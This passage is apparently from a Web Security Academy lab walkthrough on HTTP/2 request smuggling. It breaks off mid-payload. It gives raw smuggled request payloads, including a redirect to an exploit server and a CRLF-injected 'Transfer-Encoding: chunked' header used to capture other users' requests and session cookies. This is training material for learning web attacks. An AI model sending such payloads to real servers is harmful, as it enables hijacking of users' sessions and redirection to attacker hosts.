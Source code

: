     `POST / HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Content-Length: 0  
      
    GET /resources HTTP/1.1  
    Host: YOUR-EXPLOIT-SERVER-ID.web-security-academy.net  
    Content-Length: 5  
      
    x=1  
      
    `
    
9.  Send the request a few times and confirm that you receive a redirect to the exploit server.
    
10.  Resend the request every 10 seconds or so until the victim is redirected to the exploit server and the lab is solved.

### Lab: HTTP/2 request smuggling via CRLF injection

**Hint**

To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the `Shift + Return` keys. Note that this feature is not available when you double-click on the header.

1.  In the browser, use the lab's search function a couple of times and observe that the website records your recent search history. Send the most recent `POST /` request to Burp Repeater and remove your session cookie before resending the request. Notice that your search history is reset, confirming that it's tied to your session cookie.
    
2.  Expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2.
    
3.  Using the Inspector, add an arbitrary header to the request. Append the sequence `\r\n` to the header's value, followed by the `Transfer-Encoding: chunked` header:
    
    **Name**
    
    `foo`
    
    **Value**
    
    `bar\r\n  
    Transfer-Encoding: chunked`
    
4.  In the body, attempt to smuggle an arbitrary prefix as follows:
    
    `0  
      
    SMUGGLED  
      
    `
    
    Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix
    
5.  Change the body of the request to the following:
    
    `0  
      
    POST / HTTP/1.1  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Cookie: session=YOUR-SESSION-COOKIE  
    Content-Length: 800  
      